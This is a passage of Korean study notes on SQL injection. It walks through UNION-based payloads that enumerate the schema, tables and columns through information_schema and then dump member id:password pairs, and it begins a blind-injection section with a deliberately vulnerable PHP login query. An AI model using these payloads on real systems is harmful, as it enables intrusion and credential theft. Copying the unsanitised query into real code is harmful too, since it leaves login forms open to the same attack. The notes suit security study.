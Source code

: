     > Query => SELECT id FROM member WHERE id ='1234' and password='1' union select schema_name from information_schema limit 0,1#"

    -> 상위의 'information_schema' 라는 스키마명 출력

    * 다른 줄 추출시 LIMIT문 사용

  * **데이터베이스명 획득**

    > Query => SELECT id FROM member WHERE id ='1234' and password='1' union select schema_name from information_schema.schemata limit 1,1#"
    >
    > -> Hello book // 데이터 베이스명: book

  * **테이블명 획득**

    > Query => SELECT id FROM member WHERE id ='1234' and password='1' union select schema_tables where table_schema=database () #"
    >
    > -> Hello member // 테이블명 : member

  * **칼럼명 획득**

    > Query => SELECT id FROM member WHERE id ='1234' and password='1' union select column_name from information_schema.columns where table_name="member" limit 0,1#"
    >
    > -> Hello id // 칼럼명: id

  * **칼럼명 획득2(password)**

    > Query => SELECT id FROM member WHERE id ='1234' and password='1' union select column_name from information_schema.columns where table_name="member" limit 1,1#"
    >
    > -> Hello password // 칼럼명: password

  * **멤버 테이블의 id, password 획득**

    > Query => SELECT id FROM member WHERE id ='1234' and password='1' union select concat ( id, ':', password) from member#"
    >
    > -> Hello admin : admpwd

### Blind SQL 삽입

**-> 쿼리 결과의 참/거짓 정보만으로 데이터 추출**

​	ex) 로그인

```pseudocode
$result = mysql_query("SELECT id FROM member WHERE id='$id' and password='$password'");
$info = mysql_fetch_array($result);
if($info[0]) { // 아이디와 비번 존재시
echo "Login Success; // 존재 유무만
}else{
echo "Login Fail";
}
```
